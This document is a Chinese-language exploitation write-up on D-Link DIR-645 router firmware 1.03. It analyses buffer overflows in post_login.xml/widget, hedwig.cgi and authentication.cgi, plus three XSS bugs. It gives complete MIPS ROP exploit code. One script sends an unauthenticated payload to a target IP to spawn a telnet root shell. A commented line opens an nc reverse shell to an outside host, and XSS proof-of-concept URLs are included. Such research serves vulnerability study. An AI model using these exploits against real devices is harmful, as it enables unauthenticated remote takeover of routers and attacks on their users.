


DIR645缓冲区溢出分析
漏洞介绍
公告显示3个缓冲区溢出漏洞，下面一个个分析。
调试环境
- ubuntu16.04 x64虚拟机：安装了常用的pwn环境，binwalk等工具用于路由器固件调试分析
- IDA6.8：静态分析同时安装mipsrop插件寻找rop链，与gdb进行动态调试
- Ghidra：反汇编反编译mips架构程序，目前只用于静态分析
- qemu2.5：利用qemu的用户和系统模式运行固件
- gdbserver：已经编译好的gdbserver，也可以自己编译生成
- Firmadyne：全系统仿真工具，模拟运行路由器固件，本质还是基于qemu的系统模式
- 固件下载：ftp://ftp2.dlink.com/PRODUCTS/DIR-645/REVA/DIR-645_FIRMWARE_1.03.ZIP
Buffer overflow on “post_login.xml”
漏洞介绍
Buffer overflow on “post_login. xml”
Invoking the “post_login. xml”server-side script, attackers can specify a “hash”password value that is used to authenticate the user. This hash value is eventually processed by the “/usr/sbin/widget”local binary. However, the latter copies the user-controlled hash into a statically-allocated buffer, allowing attackers to overwrite ad jacent memory locations.
漏洞公告：攻击者调用post_login.xml服务端脚本时，可以指定用于验证用户身份的hash值，这个hash值最终被/usr/sbin/widget程序处理，该程序会将程序控制的hash值复制到静态分配的缓冲区中，从而覆盖相邻的内存地址。
漏洞分析
根据公告可知：需要分析post_login.xml和/usr/sbin/widget这两个文件，以及它们如何处理用户输入的hash。
find . -name "post_login.xml"，文件在/htdocs/web/post_login.xml。
该xml文件是为了支持widget登录检测。代码意思是：接收GET请求传递的hash值并写入/var/run/hash文件，获取password写入/var/run/password，通过/runtime/widgetv2/logincheck判断login是否正确。
#/htdocs/web/post_login.xml
HTTP/1.1 200 OK
Content-Type: text/xml
<?
/*
* Created by Kwest Wan 20071012
* to support D-Link widget login check
*/
$hash = $_GET["hash"];
$xml_head = fread("", "/htdocs/web/__login_head.xml");
$file = "/var/run/password";
$password = query("/device/account/entry:1/password");
fwrite("w", $file, $password);
fwrite("w", "/var/run/hash", $hash);
$logined = "error";
$logined = query("/runtime/widgetv2/logincheck");
if($logined == "OK")
{
$response = "OK";
}
else
{
$response = "error";
}
echo $xml_head."<login>".$response."</login>";
?>解压出来的文件系统中找不到/runtime/widgetv2/logincheck，应该是运行过程中产生的文件，根据公告提示与此关联的二进制文件是usr/bin/widget，能够利用qemu用户模式模拟执行了解其功能：-s 生成salt，-a 生成登录hash的密码文件。
直接利用Ghidra打开usr/bin/widget进行分析。
直接进入main函数，遇到getopt函数，该函数的定义和作用可以参考文章为：
1.定义：
int getopt(int argc, char * const argv[], const char *optstring);
2.参数：
argc：main()函数传递过来的参数的个数
argv：main()函数传递过来的参数的字符串指针数组
optstring：选项字符串，告知 getopt()可以处理哪个选项以及哪个选项需要参数
3.返回：
如果选项成功找到，返回选项字母；如果所有命令行选项都解析完毕，返回 -1；如果遇到选项字符不在 optstring 中，返回字符 '?'；如果遇到丢失参数，那么返回值依赖于 optstring 中第一个字符，如果第一个字符是 ':' 则返回':'，否则返回'?'并提示出错误信息。
4.举例说明选项字符串optstring的意义：
char*optstring = “ab:c::”;
单个字符a 表示选项a没有参数 格式：-a即可，不加参数
单字符加冒号b: 表示选项b有且必须加参数 格式：-b 100或-b100,但-b=100错
单字符加2冒号c:: 表示选项c可以有，也可以无 格式：-c200，其它格式错误
optarg —— 指向当前选项参数(如果有)的指针。
optind —— 再次调用 getopt() 时的下一个 argv指针的索引。
optopt —— 最后一个未知选项。
opterr —— 如果不希望getopt()打印出错信息，则只要将全域变量opterr设为0即可。继续分析，getopt()获取了命令行参数，会进行判断，如果是-a选项，则会一直往下运行至FUN_004009f0("/var/run/hash",&local_128);
iVar4 = getopt(param_1,param_2,"a:shv"), 0 < iVar4
if (iVar4 == 0x61) {//判断选项字符是否是'a'
iVar6 = 1;
uVar7 = optarg;
}
...
memset(&local_128,0,0x100);
FUN_004009f0("/var/run/hash",&local_128);
memset(&local_380,0,0x40);
local_37c = local_124;
local_380 = local_128;
memset(auStack832,0,0x40);
FUN_004009f0(uVar7,auStack832);进入FUN_004009f0(“/var/run/hash”,&local_128)。两个参数分别是/var/run/hash和栈上的地址local_128缓冲区大小为0x100。
undefined4 FUN_004009f0(char *param_1,void *param_2)
{
int __fd;
size_t sVar1;
stat sStack168;
__fd = open(param_1,0,0x100);
if (__fd < 0) {
printf("Can\'t open file %s.\n",param_1);
__fd = 1;
}
else {
fstat(__fd,&sStack168);
sVar1 = read(__fd,param_2,sStack168.st_blocks);
if (sVar1 == sStack168.st_blocks) {
close(__fd);
return 0;
}
puts("read error.");
close(__fd);
__fd = 2;
}
/* WARNING: Subroutine does not return */
exit(__fd);
}先打开了/var/run/hash，然后利用fstat将打开的文件状态存入sStack168，之后将文件中的内容读取到第二个参数local_128中，而之前在分析post_login.xml的时候知道，我们通过get方式传入的hash值被写进了/var/run/hash。而且没有对hash值做长度限制就直接拷贝到栈上，这就导致了栈溢出。
程序往下执行会再一次调用FUN_004009f0()，
这里的第一个uVar7是命令-a 的参数：生成登录hash的密码文件。这可以是我们输入的文件名，但是需要里面有内容，这样open不会报错。根据post_login.xml可知真实环境中应该是/var/run/password。手上没有真实机器所以就随便创建一个文件。
因为真实环境中我们能控制的只有/var/run/hash。所以溢出点是调用FUN_004009f0(“/var/run/hash”,&local_128)。
漏洞利用
劫持PC，确定偏移
利用patternLocOffset.py生成context文件，包含特定格式的2000个字符串。
python patternLocOffset.py -c -l 2000 -f context
测试脚本run.sh，因为解压的固件中没有/var/run文件夹所以需要手工创建，print函数默认在每行结尾加上换行，利用tr -d ‘\n’删除换行。经过尝试从context中读取400个字节不会报错。
#!/bin/bash
mkdir ./var/run
python -c "print open('context','r').read(400)" | tr -d '\n' > ./var/run/hash
echo -n 'aaaa' > temp
cp $(which qemu-mipsel-static) ./qemu
chroot . ./qemu -g 23957 /usr/sbin/widget -a temp
rm -f ./qemu
rm -rf ./var/run执行命令：
sudo ./run.sh 使用IDA或者gdb-multiarch联调运行到main()返回时ra寄存器中的值为0x6A41376A。
./patternLocOffset.py -s 0x6A41376A -l 2000确定偏移为292。
因为程序结构比较简单，函数嵌套不多，也可以通过ghidra或者IDA手工计算偏移：read的第二个参数是$sp, 0x3A8+var_128，而ra的值通过sw $ra, 0x3A8+var_4($sp)存储在0x3A8+var_4($sp)，两者相差0x128-0x4=292。
在覆盖返回地址的时候，因为FUN_004009f0()是非叶子函数，该函数的ra也会保存在栈中，所以能否通过覆盖当前函数FUN_004009f0()的返回地址来劫持PC呢？
从下图可以看出，进入函数后，程序先是addiu $sp, -0xC0新开辟了0xc0大小的栈空间，然后将ra存储在0xC0+var_4($sp)的地方。而read的第二个参数存储的偏移应该是0x3a8-0x128+0x4=644，但是参数的位置比当前函数ra位置高，而在填充栈的时候是往高地址填充，不可能会覆盖到低地址的ra。因此只能覆盖main函数的ra来劫持PC。
选择攻击路径构造ROP链
因为在ubuntu16.04上构造的exp打不通，换了kali虚拟机进行调试，先找到调用了哪个动态链接库libc.so，然后找到其基地址：
gdb-multiarch usr/sbin/widget
set architecture mips
target remote :23957
b *0x00400E74 #main()函数返回jr ra处
c
vmmap调试发现qemu用户模式使用的libc是libuClibc-0.9.30.1.so基地址为0x7f738000。
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
......
0x7f738000 0x7f739000 rwxp 1000 0 /root/桌面/IoT/D-Link/DIR645/dir645-v103/_dir645_FW_103.bin.extracted/squashfs-root/lib/libuClibc-0.9.30.1.so
0x7f739000 0x7f796000 r-xp 5d000 1000 /root/桌面/IoT/D-Link/DIR645/dir645-v103/_dir645_FW_103.bin.extracted/squashfs-root/lib/libuClibc-0.9.30.1.so在main()函数返回时能覆盖fp,s0-s7,ra寄存器，所以接下来构造rop过程跟DIR815也是一样的。
通过system函数getshell
构造的exp如下：
#!/usr/bin/python2
from pwn import *
context.endian = "little"
context.arch = "mips"
base_addr = 0x7f738000
system_addr_1 = 0x53200-1
gadget1 = 0x45988#0x158C8
gadget2 = 0x159cc
padding = 'A' *(292-4*9) #0x3cd
padding += p32(base_addr + system_addr_1) # s0
padding += p32(base_addr + gadget2) # s1
#padding += 'A' * 4 # s1
padding += 'A' * 4 # s2
padding += 'A' * 4 # s3
padding += 'A' * 4 # s4
padding += 'A' * 4 # s5
#padding += p32(base_addr + gadget2) # s5
padding += 'A' * 4 # s6
padding += 'A' * 4 # s7
padding += 'A' * 4 # fp
padding += p32(base_addr + gadget1) # ra
padding += 'B' * 0x10
padding += '/bin/sh'
print padding构造脚本调试
#!/bin/bash
mkdir ./var/run
#python -c "print open('context','r').read(400)" | tr -d '\n' > ./var/run/hash
python exp.py | tr -d '\n' > ./var/run/hash
echo -n 'aaaa' > temp
cp $(which qemu-mipsel-static) ./qemu
chroot . ./qemu /usr/sbin/widget -a temp
rm -f ./qemu
rm -rf ./var/run能够成功getshell。
Buffer overflow on “hedwig.cgi”
跟之前分析的DIR815目标一样都是hedwig.cgi，而且漏洞产生原因都是超长的cookie，所以调试过程几乎一样，唯一的区别可能是偏移会不同，调试脚本test.sh如下：
#!/bin/bash
#sudo ./test.sh "uid=1234" `python -c "print 'uid=' + open('content','r').read()"`
INPUT="$1"
COOKIE="$2"
PORT="23957"
LEN=$(echo -n "$INPUT" | wc -c)
cp $(which qemu-mipsel-static) ./qemu
echo $INPUT | sudo chroot . ./qemu -E CONTENT_LENGTH=$LEN -E CONTENT_TYPE="application/x-www-form-urlencoded" -E REQUEST_METHOD="POST" -E HTTP_COOKIE=$COOKIE -E REQUEST_URI="/hedwig.cgi" -E REMOTE_ADDR="127.0.0.1" -g $PORT /htdocs/web/hedwig.cgi
rm -f ./qemu也需要提前在/var文件夹下创建/tmp文件夹否则到不了真正的漏洞触发函数第二个sprintf()，还需要利用patternLocOffset.py脚本创建content文件计算偏移，
./patternLocOffset.py -c -l 2000 -f content
之后利用tesh.sh结合gdb-multiarch或者IDA进行远程调试计算偏移，
sudo ./test.sh "uid=1234" `python -c "print 'uid=' + open('content','r').read()"`具体调试过程跟DIR815缓冲区溢出漏洞再分析过程一样，调试发现偏移也是1009，这样的话整个exp也跟815完全一样，经测试确实如此。
Buffer overflow on “authentication.cgi”
漏洞介绍
Buffer overflow on "authentication. cgi" The third buffer overflow vulnerability affects the "authentication. cgi"CGI script. This time the issue affects the HTTP POST paramter named "password". Again, this vulnerability can be abused to achieve remote code execution. As for all the previous issues, no authentication is required.
该缓冲区溢出漏洞存在于authentication. cgi脚本中，产生原因是HTTP的POST参数中password参数值过长，攻击者能够利用该漏洞在不需要身份验证条件下远程命令执行。
漏洞分析
binwalk -Me解压之后，根据漏洞介绍可知，目标文件是authentication. cgi脚本，find . -name 'authentication.cgi'查找文件，并ls -l ./htdocs/web/authentication.cgi发现该cgi文件是指向./htdocs/cgibin的符号链接，真正的目标文件在cgibin中。

因为溢出的产生原因是HTTP的POST参数中password值过长，所以调试脚本run.sh如下：post数据可以通过echo 'xxxx' |传入。
#!/bin/bash
INPUT="$1"
PORT="23957"
LEN=$(echo -n "$INPUT" | wc -c)
cp $(which qemu-mipsel-static) ./qemu
echo $INPUT | chroot . ./qemu -E CONTENT_LENGTH=$LEN -E CONTENT_TYPE="application/x-www-form-urlencoded" -E REQUEST_METHOD="POST" -E REQUEST_URI="/authentication.cgi" -E REMOTE_ADDR="127.0.0.1" -g $PORT /htdocs/web/authentication.cgi
rm -f ./qemu定位漏洞函数
直接通过调试定位漏洞，
sudo ./run.sh `python -c "print 'A'*2000"`因为处理的是authentication.cgi脚本，IDA打开cgibin之后，定位到authenticationcgi_main函数在0x0040B01C，并在该处下断点，单步调试，ra存储在0x76FFF07c处，观察该处的内容何时被覆盖。
继续执行，发现运行完read()函数后，0x76FFF07c处的返回值被覆盖，该处的read()很可能是溢出点。
继续运行到0x0040B514处jal sub_40A424，进入sub_40A424后执行其中的getenv函数时报错。
查看报错位置代码lbu $v0, 0($a1)，读取a1寄存器中地址指向的数据，此时a1寄存器中值为0x41414141，无法访问该地址，这个问题应该是在运行过程中覆盖了栈上的内容，然后再赋值给a1寄存器造成的。我们尝试减小POST数据长度。
发现长度为1200时，能够解决该问题。
sudo ./run.sh `python -c "print 'A'*1200"`但是继续运行会出现下面的问题，运行到0x40B588处时，lb $v0, 0($a2)报错，此时a2中值为3，无法访问该地址。
经过调试分析，原因是在0x40B55C处，程序执行两次strstr来分别定位字符串id=和password=。如果post数据中不含这两个定位符则会报上面的错。
结合ghidra反编译结果如下，也能看出执行了两次strstr。
所以post数据中必须含有id=和password=这两个字符串，
sudo ./run.sh python -c "print 'id=password='+'A'*1200"
以下是调试strstr函数过程，在第一次strstr时,a1的值为s0指向‘id=’字符串，也就是通过strstr定位我们post数据中的’id=’的位置。
接下来是循环判断’id=’后面的字符串是否存在字符‘&’（0x26)，直到遇到结束符’\0’。这样就得到了‘id=’之后字符串的长度0x4B9=1209=len(1200*‘A’+’password=’)，该长度是0x40B5C4处strncpy的第三个参数，
strncpy(栈上地址0x76FFE718，’id=’之后的内容，0x4B9)。也就是将’id=’之后的内容拷贝进0x76FFE718处。
第二次strstr函数就是定位’password=’字符串的位置，
接下来循环判断’password=’后面的字符串中是否‘&’(0x26)字符，直到遇到结束符’\0’。这样就得到了‘password=’之后字符串的长度0x4B0=1200=len(1200*’A’)，该长度是0x40B5E4处strncpy的第三个参数，
strncpy(栈上地址0x76FFE798，password=’之后的内容，0x4B0)。也就是将’password=’之后的内容拷贝进0x76FFE798处。这样会覆盖之前第一次strncpy的结果。那么这里的strncpy函数也很可能是漏洞溢出点。
继续运行,能正常运行authenticationcgi_main函数返回值处0x40BCE0处，且ra被覆盖成了’AAAA’。

分析到这里可以确定的事情有，
- 发送的post数据长度不能过长，1200能满足程序正常运行到返回且能覆盖返回地址。
- post数据中需要包含’id=’和’password=’这两个字符串。
- read()和0x40B5E4处strncpy函数都可能是漏洞触发函数。
接下来分析真正的漏洞触发函数，先分析下read(),
read从stdin（标准输入设备）读取长度为HTTP协议中content_length值的数据，然后写入栈中变量var_430，而该长度只有0x400，并且没有限制content_length值，所以可以造成缓冲区溢出。
read(fileno(stream)，栈上内容var_430大小为0x400，atoi(getenv(‘content_length’)))。
再是0x40B5E4处strncpy函数，
strncpy(栈上地址0x76FFE798，password=’之后的内容，0x4B0)，
函数是从0x76FFF07c开始覆盖，如果覆盖到存放返回值ra的栈地址0x76FFF07c，需要覆盖0x76FFF07c-0x76FFE798=0x8e4=2276字节的缓冲区，而之前2000个’A‘就提前报错了，所以0x40B5E4处strncpy()肯定不是漏洞触发点。这样就确定了read()函数是真正的漏洞触发函数。
漏洞利用
整个漏洞利用过程是
- 劫持PC，通过调试确定缓冲区大小，定位并确定控制偏移
- 确定攻击路径，构造ROP链
- 编写exp,getshell
劫持PC，确定偏移
利用patternLocOffset.py生成context文件，包含特定格式的2000个字符串。
python patternLocOffset.py -c -l 2000 -f context
执行命令：
sudo ./run.sh `python -c "print 'id=password='+open('context','r').read(1200)"`使用IDA或者gdb-multiarch联调运行到authenticationcgi_main()返回时ra寄存器中的值为0x42326A42。
./patternLocOffset.py -s 0x42326A42 -l 2000确定偏移为1056。
选择攻击路径构造ROP链
先找到调用了哪个动态链接库libc.so，然后找到其基地址：
gdb-multiarch htdocs/cgibin #一定要加载文件htdocs/cgibin不然vmmap得不到结果
set architecture mips
target remote :23957
b *0040BCE0 #authenticationcgi_main()函数返回jr ra处
c
vmmap调试发现qemu用户模式使用的libc和DIR815相同都是libuClibc-0.9.30.1.so且基地址都为0x76738000。
Breakpoint *0x0040BCE0
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
0x400000 0x401000 rwxp 1000 0 /htdocs/web/authentication.cgi
0x401000 0x423000 r-xp 22000 1000 /htdocs/web/authentication.cgi
0x423000 0x433000 ---p 10000 23000 /htdocs/web/authentication.cgi
0x433000 0x435000 rw-p 2000 23000 /htdocs/web/authentication.cgi
0x76738000 0x76739000 rwxp 1000 0 645/_dir645_FW_103.bin.extracted/squashfs-root/lib/libuClibc-0.9.30.1.so
0x76739000 0x76796000 r-xp 5d000 1000 645/_dir645_FW_103.bin.extracted/squashfs-root/lib/libuClibc-0.9.30.1.so而且在authenticationcgi_main()函数返回时也能覆盖fp,s0-s7,ra寄存器，所以接下来构造rop过程跟DIR815也是一样。具体可以参考文章。
通过system函数getshell
整个流程图如下，
构造的exp如下：
#!/usr/bin/python
from pwn import *
context.endian = "little"
context.arch = "mips"
import requests
import sys
def get_payload(offset, libc_base, cmd):
gadget1 = 0x45988
gadget2 = 0x159cc
system_addr_1 = 0x53200-1
payload = 'A' * offset
payload += p32(libc_base + system_addr_1) # s0
payload += p32(libc_base + gadget2) # s1
payload += 'A' * 4 # s2
payload += 'A' * 4 # s3
payload += 'A' * 4 # s4
payload += 'A' * 4 # s5
payload += 'A' * 4 # s6
payload += 'A' * 4 # s7
payload += 'A' * 4 # fp
payload += p32(libc_base + gadget1) # ra
payload += 'B' * 0x10
payload += cmd
return payload
if __name__=="__main__":
#cmd = "nc -e /bin/sh 192.168.0.122 9999"
cmd = 'telnetd -p 222 -l /bin/sh'
data = 'id=password='+get_payload(1056-(4*9), 0x2aaf8000, cmd)
print str(len(data))
header = {
'Content-Type' : 'application/x-www-form-urlencoded',
'Content-Length': str(len(data))
}
ip_port=sys.argv[1]
url="http://"+ip_port+"/authentication.cgi"
r=requests.post(url=url,headers=header,data=data)直接利用Firmadyne仿真环境进行测试，
测试结果显示能够让目标机执行telnetd -p 222 -l /bin/sh。
Cross-site scripting on “bind.php”
find . -name "bind.php"，文件在/htdocs/parentalcontrols/bind.php
获取get表单中deviceid的内容并echo，典型的XSS。
81行 welcome/?device_id=<? echo $_GET["deviceid"];?>';" /> &nbs
构造’?deviceid="/><script>alert('xss')</script>‘其中“/>是为了闭合前面<“，之后直接加入<script>alert('xss')</script>即可，后面也可以加入’<’匹配之后的’/>’。
poc:
http://<target ip>/parentalcontrols/bind.php?deviceid="/><script>alert('xss')</script><
Cross-site scripting on “info.php”
find . -name "bind.php"，文件在/htdocs/webinc/js/info.php
21行 $title = "ACTION ".$_GET["RESULT"];
30行 echo "\t\tBODY.ShowMessage(\"".$title."\", msgArray);\n";
获取get表单中RESULT的内容给title，之后echo，也是XSS。可以用",msgArray);闭合ShowMessage函数，然后再alert(‘xss’),最后用//注释掉后面代码。
poc：
http://<target ip>/info.php?RESULT=",msgArray);alert('xss');//

Cross-site scripting on “bsc_sms_send.php”
find . -name "bsc_sms_send.php"，文件在/htdocs/webinc/body/bsc_sms_send.php
其中的18行XSS漏洞。
poc:
http://<target ip>/bsc_sms_send.php?receiver="/><script>alert('xss');</script><div
参考资料
D-Link DIR-645 post_login.xml BoF
揭秘家用路由器0day挖掘技术